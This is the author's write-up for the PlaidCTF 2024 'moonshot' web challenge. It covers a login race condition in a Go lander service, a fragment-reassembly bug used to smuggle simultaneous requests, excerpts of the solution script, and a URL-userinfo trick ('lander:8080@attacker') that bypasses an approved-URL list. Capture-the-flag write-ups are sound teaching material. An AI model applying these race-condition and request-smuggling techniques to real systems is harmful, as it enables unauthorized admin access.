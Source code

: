 # moonshot

![https://plaidctf.com](https://img.shields.io/badge/Event-PlaidCTF%202024-red)
![](https://img.shields.io/badge/Category-web-blue)
![](https://img.shields.io/badge/Author-luke-brightgreen)
![](https://img.shields.io/badge/Testers-bluepichu-blueviolet)
![](https://img.shields.io/badge/Flag-200%20points%2C%202%20solves-orange)

## Flavor Text

> Type. Cosmic Anomaly
>
> Description. A lunar lander on the moon’s surface has stopped responding to commands. Despite efforts to establish communication and retrieve data, the lander is exhibiting bizarre behavior. Aerial imagery reveals no obvious damage or signs of malfunction, adding to the mystery surrounding its change in behavior.
>
> Hypotheses. Extraterrestrial Interference? Just Bad Code?

## About

The premise is that a lunar lander has started malfunctioning on the moon that you have to exploit by somehow becoming admin through the lander's telemetry module. There are earth and moon-based nodes that proxy web traffic over the [bundle protocol](https://datatracker.ietf.org/doc/rfc9171/). Yes, it's silly that the telemetry module is a web server styled with bootstrap, but I really liked the idea of directly visiting sites hosted on other planets with nothing but a browser. I had initially planned to set the problem on Mars, but concluded the several minute delay would be too frustrating.

The [bundle protocol](https://datatracker.ietf.org/doc/rfc9171/) is a delay/disruption tolerant networking spec built on the concept of store-and-forward. Because it doesn't make much sense in a high RTT environment to have the endpoints handle things like transmission. I built the initial version of the problem using [this](https://github.com/dtn7/dtn7-gold) implementation in Golang, which was unfortunately deprecated and archived the week of the CTF. It was definitely not production ready and bundles were frequently not cleaned up or the nodes would start sending bundles in a loop. So, at the last minute I decided to use the team's instancer (thanks @bluepichu) to stand up on-demand instances rather than a single instance.

## Solution

The telemetry module has a flaw that was meant to stand out. When logging in, the username for the session is set without checking the password, then the password is checked, and then the username is cleared if needed. I had intended this to be a fairly obvious entrypoint into the problem. It's a race condition that if won, you can easily become admin, but it's not easy to win because of the jitter set in the docker compose file that makes it very unlikely to make two requests inside of the race window. 25µs accuracy is going to require two requests coming not from the client, but from the server at nearly the exact same time:

```go
user := r.URL.Query().Get("user")
pass := r.URL.Query().Get("pass")
updateSession(session, "user", user, r, w)
// From here -----

password, ok := users[user]
if !ok {
    updateSession(session, "user", "anonymous", r, w)
    http.Error(w, "invalid user", http.StatusUnauthorized)
    return
}

if subtle.ConstantTimeCompare([]byte(pass), []byte(password)) == 0 {
    // To here ------
    // is the race window, which on my machine typically took about 25µs
    updateSession(session, "user", "anonymous", r, w)
    http.Error(w, "invalid password", http.StatusUnauthorized)
    return
}
```

So how can we trigger multiple requests at the same time from the server? There is an additional bug in the fragmentation/reassembly system that sends individual fragments to the bundle processor along with the fully reassembled bundle:

```go
// Every fragment gets sent individually, along with the reassembled bundle.
// This is a bug. Fragments *should* be dropped after reassembly.
for _, f := range append(p.frags[id], reassembled) {
    wg.Add(1)
    go func() {
        if err := p.ProxyBundle(f); err != nil {
            p.log().WithField("error", err).Info("Failed to proxy bundle")
        }
        wg.Done()
    }()
}
```

The part of the proxy that extracts HTTP messages from the bundles would normally fail to parse a fragment because it's not marshalled correctly. But if we take a look at what the bundles/fragments contain, we may see something interesting! First we have to cause a bundle to be fragmented. The max bundle size in our code is set to 4096 bytes, so we'll need a request bigger than that. And we'll need to print out the content of each fragment as it's extracted:

```console
$ curl "http://lander:8080/data?$(python3 -c 'print("A" * 4096)')"

// Reassembled payload:
{"Method":"GET","Status":0,"URL":"http://lander:8080/data?AAA...AAA","Headers":{"Accept":"*/*","Accept-Encoding":"gzip","User-Agent":"curl/8.1.2","X-Forwarded-For":"192.168.65.1","X-Forwarded-Host":"lander:8080","X-Forwarded-Port":"8080","X-Forwarded-Proto":"http","X-Forwarded-Server":"0dd770ceffe3","X-Real-Ip":"192.168.65.1"},"Body":"","Session":""}

// Fragment 1:
{"Method":"GET","Status":0,"URL":"http://lander:8080/data?AAA...AAA

// Fragment 2:
AAA...AAA","Headers":{"Accept":"*/*","Accept-Encoding":"gzip","User-Agent":"curl/8.1.2","X-Forwarded-For":"192.168.65.1","X-Forwarded-Host":"lander:8080","X-Forwarded-Port":"8080","X-Forwarded-Proto":"http","X-Forwarded-Server":"0dd770ceffe3","X-Real-Ip":"192.168.65.1"},"Body":"","Session":""}
```

On their own, the two fragments are not valid JSON and will fail to parse, but we can change that. Notice that the `Headers` key contains valid JSON:

```json
{
  "Accept": "*/*",
  "Accept-Encoding": "gzip",
  "User-Agent": "curl/8.1.2",
  "X-Forwarded-For": "192.168.65.1",
  "X-Forwarded-Host": "lander:8080",
  "X-Forwarded-Port": "8080",
  "X-Forwarded-Proto": "http",
  "X-Forwarded-Server": "0dd770ceffe3",
  "X-Real-Ip": "192.168.65.1"
}
```

The JSON Unmarshaller in Golang will ignore any keys that aren't present in the target struct, so we can add the headers we need to create an entirely new HTTP request struct within the first struct as long as the complete bundle fragment contains valid JSON. This means the URL needs to be padded to push the `Headers` _value_ into the second fragment, starting with the `{`. Then additional padding will need to be added to make the last byte in the fragment `}`. With some math, this results in the solution script at [./solution.py](/solution.py):

```python
headers = {
    "Method": "GET",
    "User-Agent": "a" * PADDING_1,
    "URL": f"{url}/login?user=admin",
    "Session": cookie,
    "Cookie": f"session={cookie}",
}
resp = session.get(
        f"{url}/data?{'b' * PADDING_2}",
        headers={},
    )
```

In only a few seconds we can win the race and get the flag!

```console
attempt 0...
attempt 1...
attempt 2...
{"Temp":23,"Battery":30,"Healthy":false,"Latitude":-43.4,"Longitude":-11.4,"Flag":"PCTF{flag}"}
```

## Issues

One annoying detail that led to this challenge being unsolved by a few teams that had done nearly all the work to solve was that the user's public IP address affects the padding values beacuse of the headers added by Traefik (`X-Real-IP`, etc.), so it's possible to have a solution working locally but fail remotely for apparently no reason.

Also, the challenge infrastructure had a lot of `502 Bad Gateway` errors throughout the competition. The instances were somewhat isolated by docker networks, but didn't account for teams bypassing the `approvedURLs` restriction that limits what can be proxied. Some teams found that you can make requests to `http://lander:8080@attacker` to trigger requests to an arbitrary domain! Oops! I believe this led to the infrastructure issues because teams were hitting other teams instances and the proxy nodes were receiving bundles they didn't know what to do with.

Ultimately, the latter hypothesis proved correct. It was Just Bad Code.

## Build and Run

Set environment variables in a `.env` file:

```
LANDER_SECRET="secret"
LANDER_ADMIN_PASS="pass"
LANDER_FLAG="PCTF{flag}"
```

Set `/etc/hosts`:

```
127.0.0.1 lander
```

Bring up simulator:

```
docker compose up --build
```

Visit:

```
curl http://lander:8080/
```
